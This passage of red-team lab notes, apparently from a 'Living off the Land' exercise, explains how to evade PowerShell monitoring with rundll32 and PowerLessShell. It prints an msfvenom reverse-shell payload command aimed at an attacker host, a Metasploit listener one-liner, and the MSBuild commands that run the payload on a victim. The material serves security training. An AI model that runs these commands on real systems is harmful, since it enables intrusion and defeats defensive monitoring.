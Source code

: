 The above image shows replacing the Target with `rundll32.exe` to execute JavaScript code.

Checkout this [Github repo](https://github.com/theonlykernel/atomic-red-team/blob/master/atomics/T1023/T1023.md) for more information and techniques.

**No PowerShell:**

In 2019, threat detection report stating that PowerShell is the most used technique for malicious activities in turn organization started to monitor or block powershell.exe from being executed.

Introducing **PowerLessShell** a python-based tool that generates malicious code to run on a target machine without showing an instance of the PowerShell process. PowerLessShell relies on MSBuild, a platform for building applications, to execute remote code.

```C
git clone https://github.com/Mr-Un1k0d3r/PowerLessShell.git
```

Generate a PowerShell payload to make it suitable to work with MSBuild:

```C
msfvenom -p windows/meterpreter/reverse_winhttps LHOST=AttackBox_IP LPORT=4443 -f psh-reflection > liv0ff.ps1
```

Of course a listener (One liner):

```C
msfconsole -q -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_winhttps; set lhost AttackBox_IP;set lport 4443;exploit"
```

Navigate to the PowerLessShell directory and convert our msfvenom `.ps1` file into a file compatible with MSBuild:

```C
python2 PowerLessShell.py -type powershell -source /tmp/liv0ff.ps1 -output liv0ff.csproj
```

Once the conversion is complete, transfer the `.csproj` file to the victim (for demonstration purposes use simple python server) and build it with `MSBuild.exe`:

```C
c:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe c:\Users\thm\Desktop\liv0ff.csproj
```

Wait for the build to finish to receive the reverse shell then have a look at Task Manager and see if PowerShell process:

Attacker:

![Living off the Land-3.png](/img/user/cards/red-team/images/Living%20off%20the%20Land-3.png)

Task Manager at Victim:

![Living off the Land-4.png](/img/user/cards/red-team/images/Living%20off%20the%20Land-4.png)


### Questions and Problems
---
## Conclusion


